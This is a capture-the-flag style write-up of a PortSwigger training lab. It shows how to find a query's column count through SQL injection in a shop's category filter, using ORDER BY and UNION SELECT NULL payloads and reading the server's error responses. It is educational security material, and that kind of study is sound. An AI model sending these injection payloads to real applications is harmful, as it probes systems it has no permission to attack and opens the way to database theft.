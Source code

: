 # SQL injection UNION attack, determining the number of columns returned by the query | Dec 4, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns), you'll learn: SQL injection UNION attack, determining the number of columns returned by the query! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204013100.png)

```html
					[...]
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a href="/">All</a>
                        <a href="/filter?category=Clothing%2c+shoes+and+accessories">Clothing, shoes and accessories</a>
                        <a href="/filter?category=Corporate+gifts">Corporate gifts</a>
                        <a href="/filter?category=Food+%26+Drink">Food & Drink</a>
                        <a href="/filter?category=Lifestyle">Lifestyle</a>
                        <a href="/filter?category=Toys+%26+Games">Toys & Games</a>
                    </section>
                    <table class="is-table-numbers">
                        <tbody>
                        <tr>
                            <th>Dancing In The Dark</th>
                            <td>$99.37</td>
                            <td><a class="button is-small" href="/product?productId=5">View details</a></td>
                        </tr>
                        [...]
```

As you can see, **there are 2 pages in here: `filter` and `product`.**

**In the lab background, it said: `an SQL injection vulnerability in the product category filter`.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204013337.png)

Let's click one of those filters!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204013403.png)

We can see that there is a GET parameter called `category`.

**Let's try to enumerate the column numbers via `ORDER BY` clause!**
```sql
/filter?category=' ORDER BY 4-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204013558.png)

When we **`ORDER BY` 4 indexes**, it returns a `500 Internal Server Error` HTTP status.

However, when we **`ORDER BY` 3 indexes**:

```sql
/filter?category=' ORDER BY 3-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204013736.png)

It has no error!

Which means we found **the number of columns is 3!!**

**If you prefer using other method, you can use the `UNION` clause:**

```sql
/filter?category=' UNION SELECT NULL,NULL,NULL,NULL-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204014130.png)

**When we selected 4 columns, it outputs `Internal Server Error`.**

**When we select 3 columns:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-3/images/Pasted%20image%2020221204014036.png)

**It outputs normally, which means we found the number of columns is 3!**

# Conclusion

What we've learned:

1. SQL injection UNION attack, determining the number of columns returned by the query